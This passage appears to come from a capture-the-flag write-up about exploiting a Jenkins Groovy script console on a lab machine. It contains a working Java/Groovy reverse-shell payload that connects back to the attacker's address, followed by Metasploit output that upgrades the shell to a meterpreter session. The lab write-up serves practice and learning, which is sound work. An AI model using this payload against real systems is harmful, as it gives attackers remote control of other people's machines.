 ```bash
String host="10.10.253.137";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![groovy shell payload](/img/internal_http_jenkins_groovy_injection.png)

After executing the payload I caught the response on my new listener and migrated it using the `shell_to_meterpreter` module which gave me a second open meterpreter session on the host.

```bash
msf5 exploit(multi/handler) > [*] Command shell session 3 opened (10.10.253.137:4444 -> 10.10.215.86:57730) at 2020-12-05 06:16:05 +0000

msf5 exploit(multi/handler) > search shell_to_me

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(multi/handler) > use 0
msf5 post(multi/manage/shell_to_meterpreter) > set session 3
session => 3
msf5 post(multi/manage/shell_to_meterpreter) > set lport 4333
lport => 4333
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.253.137:4333 
[*] Sending stage (980808 bytes) to 10.10.215.86
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > kill sessessions -k 3
[*] Killing the following session(s): 3
[*] Killing session 3
[*] 10.10.215.86 - Command shell session 3 closed.
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                                                                Connection
  --  ----  ----                   -----------                                                                ----------
  2         meterpreter x86/linux  no-user @ internal (uid=33, gid=33, euid=33, egid=33) @ 10.10.215.86       10.10.253.137:4433 -> 10.10.215.86:55326 (10.10.215.86)
  4         meterpreter x86/linux  no-user @ jenkins (uid=1000, gid=1000, euid=1000, egid=1000) @ 172.17.0.2  10.10.253.137:4333 -> 10.10.215.86:38946 (172.17.0.2)
```
